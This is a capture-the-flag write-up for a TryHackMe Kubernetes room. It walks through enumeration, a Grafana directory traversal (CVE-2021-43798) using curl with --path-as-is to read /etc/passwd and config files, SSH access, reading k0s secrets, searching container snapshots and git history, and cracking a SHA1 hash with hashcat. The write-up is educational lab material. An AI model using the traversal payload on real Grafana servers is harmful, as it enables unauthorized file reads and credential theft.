





# Kubernetes for Everyone
**Date:** May 7th 2022

**Author:** j.info

**Link:** [**Kubernetes for Everyone**](https://tryhackme.com/room/kubernetesforyouly) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- Find the username?
- Find the password?
- What secret did you find?
- What is the Pod flag?
- What's the secret to the FANG interview?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.191.70`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
3000/tcp open  ppp?
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
6443/tcp open  ssl/sun-sr-https?
|     Content-Type: application/json
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}
```

An additional all ports scan picks up port **6443**.

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.191.70:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`

```bash
/signup               (Status: 200) [Size: 27985]
/verify               (Status: 200) [Size: 27985]
/apidocs              (Status: 401) [Size: 32]   
/apidocs.php          (Status: 401) [Size: 32]
```

<br>

## Website Digging

Visiting the main page on port 3000:


We're presented with a **Grafana** login page and notice the version is **v8.3.0 (914fcedb72)**. Looking up exploits shows that it's vulnerable to a **directory traversal attack**:



Reading through the exploit code shows us that it's sending the following:

```py
url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```

It also lists all of the plugins with the first one being **alertlist**, so I decide to just curl the request over.

Note, make sure to use **--path-as-is** or the request will not work. From the curl man page:

```bash
--path-as-is
              Tell  curl to not handle sequences of /../ or /./ in the given URL path. Normally curl will squash or merge them according to standards but
              with this option set you tell it not to do that.

              Example:
               curl --path-as-is https://example.com/../../etc/passwd
```

`curl http://10.10.191.70:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is`

```bash
root:x:0:0:root:/root:/bin/ash

--- SNIP ---

grafana:x:472:0:<REDACTED>:/home/grafana:/sbin/nologin 
```

That redacted piece above definitely looks out of place. Maybe a password?

I'm able to pull down the **grafana config file** after figuring out where it was online, but there aren't any credentials stored in it:

`curl http://10.10.191.70:3000/public/plugins/alertlist/../../../../../../../../../../etc/grafana/grafana.ini --path-as-is > test.txt`

One thing to note is if you try and open a file that doesn't exist you get the following:

```json
{
  "message": "Plugin file not found"
}
```

But if you try and open a file you can't access it shows:

```json
{
  "message": "Could not open plugin file"
}
```

And if the file exists but is empty you don't get a message back at all.

I spend a little more time playing around with this and find the following:

- It's a docker container running Alpine Linux v3.14.3
- The IP and hostname are: 172.17.0.3 54c2fca370f6

Let's try and get on the system since this way of enumerating is a bit inefficient.

Not having much else to go on I check out **port 5000** which shows an **etch a sketch** to play around with.


Viewing the page source code doesn't show anything, but viewing the main.css file listed inside of it does. A pastebin link which is odd.



Visiting the link:



And since that looks like base32 I decode it from the command line:

`echo "OZQWO4TBNZ2A====" | base32 -d`

```
vagrant
```

That looks like it should probably be a username or password. I paste it into the "Find the username?" question on TryHackMe and it accepts it, so we know it's a user.

<br>

## System Access

Remembering the odd text from the **/etc/passwd** file earlier I decide to try and ssh over with the username we just found and that as a password, and we're in.

```bash
The authenticity of host '10.10.94.244 (10.10.94.244)' can't be established.
ED25519 key fingerprint is SHA256:VPx7mYuBsJ55P9/hfFuuYIjMx9XjpMRWIy4wC5fiG4Y.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.94.244' (ED25519) to the list of known hosts.
vagrant@10.10.94.244's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


248 packages can be updated.
192 updates are security updates.


Last login: Thu Feb 10 18:58:49 2022 from 10.0.2.2
vagrant@johnny:~$
```

I check `sudo -l` and find we can run anything we want as root in this container:

```bash
Matching Defaults entries for vagrant on johnny:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on johnny:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```

A quick `sudo bash` and we're root.

<br>

## System Enumeration

I check around the /home and /root directories but don't find anything interesting. Same with /opt.

Looking at running processes with `ps aux` shows us that we're using the **k0s** distro:

```bash
kube-sc+  1359  0.6  1.4 754040 14512 ?        Sl   21:29   0:08 /var/lib/k0s/bin/kube-scheduler --bind-address=127.0.0.1 --leader-elect=false --profiling=fa
kube-ap+  1361  3.4  4.9 768064 49920 ?        Sl   21:29   0:46 /var/lib/k0s/bin/kube-controller-manager --service-account-private-key-file=/var/lib/k0s/pki
```

Our next objective mentions finding a secret that we've hidden from ourselves, so let's check the secrets in here:

`k0s kubectl get secret`

```bash
NAME                  TYPE                                  DATA   AGE
default-token-nhwb5   kubernetes.io/service-account-token   3      85d
k8s.authentication    Opaque                                1      85d
```

Looking in the default-token-nhwb5 doesn't have anything interesting.

In **k8s.authentication** we see:

`k0s kubectl edit secret k8s.authentication`

```bash
# Please edit the object below. Lines beginning with a '#' will be ignored,
# and an empty file will abort the edit. If an error occurs while saving this file will be
# reopened with the relevant failures.
#
apiVersion: v1
data:
  id: VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9
kind: Secret
metadata:
  creationTimestamp: "2022-02-10T18:58:02Z"
  name: k8s.authentication
  namespace: default
  resourceVersion: "515"
  uid: 416e4783-03a8-4f92-8e91-8cbc491bf727
type: Opaque
```

Sending the **id** through base64 decoding gives us our "What secret did you find?" objective:

`echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d`

```
<REDACTED>
```

<br>

## Game of Pods

This took quite a bit of experimentation on my part running through the k0s commands but I eventually found that you could use `k0s kubectl get pods` to get a list of pods, but the output was:

```
No resources found in default namespace.
```

Using `k0s kubectl get pods --help` showed that you can list all pods across all namespaces with the **-A** flag, which gives us a list of the pods:

```bash
  -A, --all-namespaces=false: If present, list the requested object(s) across all namespaces. Namespace in current context is ignored even if specified with --namespace.
```

`k0s kubectl get pods -A`

```bash
NAMESPACE     NAME                              READY   STATUS      RESTARTS   AGE
internship    internship-job-5drbm              0/1     Completed   0          85d
kube-system   kube-router-vsq85                 1/1     Running     0          85d
kube-system   metrics-server-74c967d8d4-pvv8l   1/1     Running     0          85d
kube-system   kube-api                          1/1     Running     0          85d
kube-system   coredns-6d9f49dcbb-9vbff          1/1     Running     0          85d
kube-system   kube-proxy-jws4q                  1/1     Running     0          85d
```

I do some reading and it looks like you can execute the pods with **exec -it**.

Running the following produces an error message:

`k0s kubectl exec -it kube-api --namespace=kube-system -- /bin/bash`

```bash
Error from server: error dialing backend: dial tcp 10.0.2.15:10250: i/o timeout
```

That doesn't end up working no matter what I try so I dig around for awhile and eventually find that the pods are located in subdirectories off of the **/var/lib/k0s/contanerd** directory.

Making my way to **/var/lib/k0s/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/38/fs/home/ubuntu/jokes** shows several files with jokes in them, as well as a .git folder.

```bash
-rw-r--r-- 1 root root 1284 Feb  7 17:47 crush.jokes
-rw-r--r-- 1 root root  718 Feb  7 17:47 dad.jokes
drwxr-xr-x 8 root root 4096 May  8 02:13 .git
-rw-r--r-- 1 root root  997 Feb  7 17:47 mom.jokes
-rw-r--r-- 1 root root 1160 Feb  7 17:47 programming.jokes
```

Looking at the git commits:

`git log --pretty=oneline`

```bash
224b741fa904ee98c75913eafbefa12ac820659f (HEAD -> master, origin/master, origin/HEAD) feat: add programming.jokes
22cd540f3df22a2f373d95e145056d5370c058f5 feat: add crush.jokes
4b2c2d74b31d922252368c112a3907c5c1cf1ba3 feat: add cold.joke
2be20457c290fa1e8cc8d18cd5b546cec474691c feat: add mom.jokes
cc342469e2a4894e34a3e6cf3c7e63603bd4753e feat: add dad.jokes
```

And searching through those leads us to our flag:

`git show 4b2c2d74b31d922252368c112a3907c5c1cf1ba3`

```bash
commit 4b2c2d74b31d922252368c112a3907c5c1cf1ba3
Author: Aju100 <ajutamang10@outlook.com>
Date:   Mon Feb 7 22:37:13 2022 +0545

    feat: add cold.joke

diff --git a/king.jokes b/king.jokes
new file mode 100644
index 0000000..1b7d703
--- /dev/null
+++ b/king.jokes
@@ -0,0 +1 @@
+THM{<REDACTED>}
\ No newline at end of file

```

Take a moment to read through the jokes!

<br>

## Hack a Job at FANG

We saw the **internship** job listed under the pods previously so let's take a look at it. Running the following shows us the job:

`k0s kubectl get job -n internship`

And this will output the job information:

`k0s kubectl get job -n internship -o json`

In the results we see the following command:

```json
"command": [
    "echo",
    "26c3d1c068e7e01599c3612447410b5e56c779f1"
```

It turns out to be a **sha1 hash** and running it through **hashcat** cracks it pretty quickly:

`hashcat -m 100 -w 3 -D 1,2 hash.txt rockyou.txt`

```bash
26c3d1c068e7e01599c3612447410b5e56c779f1:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Exploiting a **directory traversal** vulnerability in the **Grafana** system under **CVE-2021-43798** to find a user's password
- Finding a hidden **pastebin** link in source code that when decoded contained a username for the password we found
- Useing the **k0s** kubernetes distro and looking up the stored secrets, as well as available pods and other information
- Looking through **git commits** in a local repository to find hidden information
- Finding a **sha1 hash** inside of a completed **k0s job** and then using **hashcat** to crack it

<br>

Many thanks to:
- [**csaju**](https://tryhackme.com/p/csaju) and [**teardown**](https://tryhackme.com/p/teardown) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)